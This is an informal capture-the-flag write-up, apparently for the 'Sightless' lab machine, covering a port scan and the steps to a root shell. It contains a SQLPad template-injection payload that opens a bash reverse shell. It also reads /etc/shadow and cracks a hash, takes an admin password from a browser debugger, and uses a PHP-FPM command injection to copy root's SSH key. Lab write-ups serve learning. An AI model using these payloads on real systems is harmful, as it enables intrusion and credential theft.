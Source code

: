 ### Scan
```
└─$ nmap -sV -sC -p- --open 10.10.11.32
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-09 14:50 EDT
Nmap scan report for 10.10.11.32
Host is up (0.12s latency).
Not shown: 56430 closed tcp ports (conn-refused), 9102 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (sightless.htb FTP Server) [::ffff:10.10.11.32]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c9:6e:3b:8f:c6:03:29:05:e5:a0:ca:00:90:c9:5c:52 (ECDSA)
|_  256 9b:de:3a:27:77:3b:1b:e1:19:5f:16:11:be:70:e0:56 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://sightless.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.94SVN%I=7%D=10/9%Time=6706D0C3%P=aarch64-unknown-linux-g
SF:nu%r(GenericLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20F
SF:TP\x20Server\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20comman
SF:d:\x20try\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x2
SF:0try\x20being\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 118.18 seconds
```

### Enum
lmao ftp prolly no go and ssh late stage
etx host
gobuster and wfuzz come up empy, but browsing sight we find sqlpad.sightless.htb. add to etc hosts
we find its version 6.10.0. Theres a vuln! https://huntr.com/bounties/46630727-d923-4444-a421-537ecd63e7fb
follow the procedure to make connection with payload
`{{ process.mainModule.require('child_process').exec('bash -c "bash -i >& /dev/tcp/10.10.14.11/9001 0>&1"') }}`
Once we click test, we've got root. weird asf no access. we've got root as svc?
cat /etc/shadow for hashes
take and crack michael hash with john
`insaneclownposse`. now ssh in

USER:c73af69fadc2c24d1687ad3ac5154fd5

when we `netstat -tnlp`, we see port 8080 servicing, where it didnt in our scans
port forward ssh with `ssh -v -N -L 8080:localhost:8080 michael@sightless.htb`
visit `http://127.0.0.1:8080`, were met with a froxlor login
install brave >:( and go to `brave://inspect/#devices` . run netstat again and forward every port => 3 digits.
3306, 8080, 44905, 44603, 33060, 3000, 37761. create instances for all of these in brave until the froxlor appears
then, inspect, go to network tab, and probe index php and wait for the login. it'll be under payload. what the fuck
![Image](/assets/Screenshot 2024-10-09 at 4.45.19 PM (2).png)
`ForlorfroxAdmin`
we're in ![Image](/assets/Screenshot 2024-10-09 at 4.47.43 PM.png)
We can see a php configuration that allows command injection. lets copy rt flag to tmp dir. you could also copy root rsa to tmp dir and ssh in that way. ill do the latter.
create new php version under fpm versions.
put this command in `cp /root/.ssh/id_rsa /tmp/id_rsa`
then, go to system setting, php fpm, and stop and restart the service. saving each time.

```
cp /root/root.txt /tmp/root.txt
```
check to see if there, then update perms same way
`chmod 644 /tmp/root.txt`
fuck this box omm
ROOT:859ac83ce4810139ed542f1d23aee710

